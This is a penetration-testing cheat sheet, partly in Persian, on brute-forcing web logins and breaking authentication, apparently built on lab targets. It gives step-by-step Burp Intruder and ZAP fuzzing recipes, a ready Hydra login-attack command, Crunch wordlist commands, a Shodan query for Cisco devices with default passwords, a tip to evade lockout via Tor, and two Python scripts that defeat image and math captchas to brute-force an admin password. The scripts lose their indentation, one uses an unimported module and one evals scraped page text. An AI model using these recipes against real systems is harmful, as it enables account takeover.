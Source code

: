#  Brute Force

## Exploit
- باید به دنبال رفتار متفاوت برنامه در مواجه با نام کاربری و رمز عبور اشتباه بگردیم
  - صدور پیام خطای متفاوت برای نام کاربری غلط و رمز عبور غلط 
    - یکی از راه های بررسی پیغام خطای متفاوت، بررسی طول متفاوت پاسخ ها می باشد
    - اگر تفاوت تابلو باشد از بخش Grep-Match استفاده کرده و نام کاربری درست را پیدا می کنیم، سپس با استفاده از کد پاسخ 302 رمز عبور درست را می یابیم
    - اگر تفاوت جزئی بود (مثلا یه نقطه کمتر بیشتر)، از Grep-Extract استفاده کرده که response را fetch می کند و همان جا می توانیم هایلایت کنیم
  - زمان پاسخ طولانی تر برای نام کاربری درست
    - ش
- س

## Burp
- Send request to Intruder
- Decode user/pass in the request
  - Right-click on the value and select "Convert selection > Base64 > Base64-decode"
  - The credentials passed to the login prompt are shown => test:123
- Replace the credentials with a parameter to be substituted => creds
- Click on the Add$ Button on the right side
- Navigate to the Payloads tab and load the 100-common-passwords.txt list
- In the Payload Processing section click on the "Add" button
- Select "Add Prefix" & Set the Prefix to "admin:"
  - Now "admin:" would be appended to each password from the list 
- Add another Payload Processing option to encode the payload to base64 
  - Select the Encode Rule as Base64-encode 
- Click on the "Start Attack" button 
- Check the Status codes of the requests and check the payload for the request with a different status code => 301
- Double click on the request entry
- Select the credentials in the Authorization header field and send them to the Decoder tab

## ZAProxy
- Click on "Manual Explore", enter the target IP address in the Input field and click on "Launch Browser" => A browser session will be started with ZAP HUD
- Click on "Continue to your target"
- Attempt login with invalid credentials => The website and the login page action will be added to the sitemap
- Click on the POST request from the sitemap and click on the "Request" tab
- Right click on the POST request, navigate to Attack and click on "Fuzz" => The Fuzzer window will appear
- Select the entered username "john" and click on the Add button => The payloads window will appear
- Click on the Add button, enter the payloads for username. Click on the Add button => Payloads: admin,bee 
- Click on the "OK" button => The payload will appear in the Fuzz Locations
- Similarly, select the entered password "doe" and click on the Add button => The payloads window will appear
- Click on the Add button, enter the payloads for password. Click on the Add button => Payloads: admin, password, adminpasswd, cookie, hello, world, bug, bee
- Click on the OK button => The payload will appear in the Fuzz Locations
- Click on Start Fuzzer. Upon completion of the attack, compare the status code => One of the status code will be 302


## Hydra (Brute force)
- ```hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"```
  - ```-L```: usernames file
  - ```-P```: password file 
  - ```^USER^``` placeholder will take in the username from the list
  - ```^PASS^``` placeholder will take in the password from the list

## Crunch (Wordlist generator)
- Syntax
  - ```crunch [min]  [max] [characters] -t [pattern] -o [filename]```
- Example
  - ```crunch 6 8 123abc$ -i wordlist -t a@@@@b```
  - ```crunch 6 8 abc12 -o test.txt```

## Wordlists
- ftp://ftp.openwall.com/pub/wordlists/
- https://github.com/berzerk0/Probable-Wordlists
- http://www.openwall.com/mirrors/
- http://www.outpost9.com/files/WordLists.html
- http://www.vulnerabilityassessment.co.uk/passwords.htm
- http://packetstormsecurity.org/Crackers/wordlists/
- http://www.ai.uga.edu/ftplib/natural-language/moby/
- http://wordlist.sourceforge.net/


# Broken Authentication

## User Enumeration
- Burp => Intuder => Grep & Match: ```Incorrect```

## Password Attack
- Burp => Intruder => Attack type: Cluster Bomb

## Default Password
- Shodan => ```net:"77.36.0.0/16" cisco default password```

## Weak Lock Out Mechanism
- استفاده از قفل بازه زمانی
- Bypass with Tor

## Weaker Authentication in Alternative Channel
- Check Mobile app functionality to bypass Web app

## Image Captcha Bypass
- Extract text of image captcha, and brute force the login page
- The image tag is: ```<img id="captcha-image" src="<datauri>"></img>```
- The incorrect attempts can be identified by the "Error!" string.
- Pyton script:
  - fetch the captcha datauri and the cookie from the webpage
  - use the tesseract python module to retrieve the text from the captcha
  - iterate over the password list and send a POST request to the login endpoint along with the required POST parameters
```Python
from PIL import Image
import base64
import pytesseract
import io
import re
import requests
session = requests.Session()
regex = '<img id="captcha-image" src="(.*?)"></img>'
with open('passwords.txt','r') as f:
for password in f:
password = password.rstrip()
response = session.get('http://192.232.252.3')
output = re.search(regex, response.text)
cookies=session.cookies.get_dict()
imgstring = output.group(1).split('base64,')[-1].strip()
image_string = io.BytesIO(base64.b64decode(imgstring))
image = Image.open(image_string)
captcha=pytesseract.image_to_string(image)
print("Trying Password: "+password)
data={"username":"admin","password":password,"captcha":captcha}
output=session.post('http://192.232.252.3/login', cookies=cookies,data=data)
if("Error" not in output.text):
print("Password Found: "+password)
break
time.sleep(0.250)
```

## Math Captcha Bypass
- Extract sum of image captcha equation, and brute force the login page
- The captcha is generated between the tag: ```<h5 style="text-align: center;margin-top: 4px"> and </h5>```
- The incorrect attempts can be identified by the "Error!" string
```Python
import re
import requests
session = requests.Session()
regex = '<h5 style="text-align: center;margin-top: 4px">(.*?) = </h5>'
with open('passwords.txt','r') as f:
for password in f:
password = password.rstrip()
response = session.get('http://192.133.218.3')
output = re.search(regex, response.text)
cookies=session.cookies.get_dict()
captcha=eval(output.group(1))
print("Trying Password: "+password)
data={"username":"admin","password":password,"captcha":captcha}
output=session.post('http://192.133.218.3/login', cookies=cookies,data=data)
if("Error" not in output.text):
print("Password Found: "+password)
break
```

